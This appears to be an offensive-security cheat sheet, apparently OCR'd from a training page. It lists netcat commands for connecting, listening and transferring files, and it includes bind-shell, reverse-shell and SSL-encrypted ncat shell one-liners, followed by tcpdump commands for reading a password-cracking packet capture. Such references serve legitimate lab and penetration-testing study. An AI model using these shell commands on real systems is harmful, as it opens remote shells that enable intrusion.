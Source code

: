 ## Netcat

#### Basic Connection to port

```text
$ nc -nv 10.0.0.22 110
```

#### Listening on a port

```text
C:\Users\user>nc -nlvp 4444

$ nc -nlvp 4444
```

#### File Transfers

```text
C:\Users\user\Desktop>nc -nlvp 4444 > incoming.exe

$ nc -nv 10.0.0.22 4444 < /usr/share/windows-binaries/wget.exe
```

#### Bind Shell

```text
C:\Users\user>nc -nlvp 4444 -e cmd.exe

$ ifconfig eth0 | grep inet
$ nc -nv 10.0.0.22 4444
```

#### Reverse Shell

```text
C:\Users\user>nc -nlvp 4444

$ nc -nv 10.0.0.22 4444 -e /bin/bash
```

#### SSL Encrypted Bind Shell

```text
C:\Users\user>ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl
$ ncat -v 10.0.0.22 4444 --ssl
```

## Packet Capture

```text
$ tcpdump -r password_cracking_filtered.pcap

$ tcpdump -n -r password_cracking_filtered.pcap | awk -F" " '{print $3}'|sort -u | head

$ tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap

$ tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap

$ tcpdump -n port 81 -r password_cracking_filtered.pcap

$ tcpdump -nX -r password_cracking_filtered.pcap

$ tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
```


[Unknown]: Ownage Dept
[Unknown]: Offensive Security